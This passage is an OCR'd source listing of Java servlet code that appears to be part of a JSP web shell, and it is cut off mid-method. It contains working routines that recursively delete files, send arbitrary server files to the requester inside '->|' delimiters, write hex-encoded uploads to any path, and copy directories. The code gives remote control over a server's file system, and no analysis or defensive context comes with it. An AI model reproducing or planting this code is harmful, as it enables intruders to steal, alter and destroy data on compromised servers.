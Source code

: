 ```
           sT = fm.format(dt);  
           sQ = l[i].canRead() ? "R" : "";  
           sQ += l[i].canWrite() ? " W" : "";  
           if (l[i].isDirectory()) {  
               sb.append(l[i].getName() + "/\t" + sT + "\t" + l[i].length()+ "\t" + sQ + "\n");  
          } else {  
               sF+=l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t"+ sQ + "\n";  
           }  
       }  
       sb.append(sF);  
   }  

   void EE(String s) throws Exception {  
       File f = new File(s);  
      if (f.isDirectory()) {  
           File x[] = f.listFiles();  
           for (int k = 0; k < x.length; k++) {  
               if (!x[k].delete()) {  
                  EE(x[k].getPath());  
               }  
           }  
       }  
      f.delete();  
}  

  void FF(String s, HttpServletResponse r) throws Exception {  
       int n;  
     byte[] b = new byte[512];  
     r.reset();  
     ServletOutputStream os = r.getOutputStream();  
       BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));  
       os.write(("->" + "|").getBytes(), 0, 3);  
      while ((n = is.read(b, 0, 512)) != -1) {  
           os.write(b, 0, n);  
     }  
   os.write(("|" + "<-").getBytes(), 0, 3);  
       os.close();  
     is.close();  
  }  

  void GG(String s, String d) throws Exception {  
     String h = "0123456789ABCDEF";  
      File f = new File(s);  
      f.createNewFile();  
     FileOutputStream os = new FileOutputStream(f);  
      for (int i = 0; i < d.length(); i += 2) {  
        os.write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d.charAt(i + 1))));  
     }  
    os.close();  
  }  

  void HH(String s, String d) throws Exception {  
      File sf = new File(s), df = new File(d);  
       if (sf.isDirectory()) {  
          if (!df.exists()) {  
              df.mkdir();  
         }  
           File z[] = sf.listFiles();  
          for (int j = 0; j < z.length; j++) {  
              HH(s + "/" + z[j].getName(), d + "/" + z[j].getName());  
         }  
       } else {  
          FileInputStream is = new FileInputStream(sf);  
```